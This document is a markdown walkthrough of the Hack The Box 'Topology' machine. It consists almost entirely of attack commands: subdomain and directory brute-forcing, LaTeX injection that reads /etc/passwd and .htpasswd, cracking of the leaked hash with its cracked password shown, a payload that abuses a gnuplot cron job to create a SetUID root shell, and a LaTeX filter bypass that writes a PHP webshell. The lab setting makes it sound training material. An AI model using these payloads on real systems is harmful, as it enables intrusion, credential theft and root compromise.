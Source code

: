 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)

## 🧭 Recon

### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.217
nmap -p 22,80 -sCV 10.10.11.217
```

### Host Enumeration
```bash
# Add to /etc/hosts
echo "10.10.11.217 topology.htb latex.topology.htb dev.topology.htb stats.topology.htb" | sudo tee -a /etc/hosts
```

### Subdomain Bruteforce
```bash
ffuf -u http://10.10.11.217 -H "Host: FUZZ.topology.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -mc all -ac
```

### Directory Bruteforce
```bash
feroxbuster -u http://10.10.11.217 -x html
```

---

## 🐚 Shell as `vdaisley`

### LaTeX File Read
```latex
$\lstinputlisting{/etc/passwd}$
```

### [Apache vhost + .htpasswd Enumeration](HTTP)
```latex
# View vhost config
$\lstinputlisting{/etc/apache2/sites-enabled/000-default.conf}$

# View .htaccess
$\lstinputlisting{/var/www/dev/.htaccess}$

# View .htpasswd
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

### Hash Cracking
```bash
# Save hash
echo 'vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > vdaisley.hash

# Crack with hashcat
hashcat -m 1600 -a 0 vdaisley.hash /opt/rockyou.txt
```

### [SSH](SSH) Access
```bash
sshpass -p 'calculus20' ssh vdaisley@topology.htb
```

---

## ⚙️ Shell as root (via gnuplot cron)

### Gnuplot Cron Observation (with pspy)
```bash
wget http://10.10.14.6/pspy64
chmod +x pspy64
./pspy64
```

### Proof of Concept Payload
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
set print "/dev/shm/0xdf-output"
output = system("id")
print(output)
EOF
```

### Create SetUID Root Shell
```bash
cat > /opt/gnuplot/0xdf.plt << EOF
system("cp /bin/bash /tmp/0xdf")
system("chmod 6777 /tmp/0xdf")
EOF

# Wait a minute, then:
/tmp/0xdf -p
```

---

## 📖 Beyond Root – LaTeX Filter Bypass

### Filter Bypass With `^^`
```latex
# Bypassing filter with \write
$\newwrite\outfile\openout\outfile=cmd.php\^^77rite\outfile{%3C?php system($_GET['cmd']); ?%3E}\closeout\outfile
```

### Trigger Webshell
```bash
curl "http://latex.topology.htb/tempfiles/cmd.php?cmd=id"
```

---

## 🛠️ Fix Broken Stats (Bonus)

### Patch `getdata.sh`
```bash
chattr -i /opt/gnuplot/getdata.sh

# Change grep 'enp' to 'eth' inside getdata.sh
sed -i 's/enp/eth/' /opt/gnuplot/getdata.sh
```

### Fix `networkplot.plt` Source Paths
```bash
# Replace '/var/www/gnuplot' with '/opt/gnuplot' in plot lines
sed -i 's|/var/www/gnuplot|/opt/gnuplot|g' /opt/gnuplot/networkplot.plt
```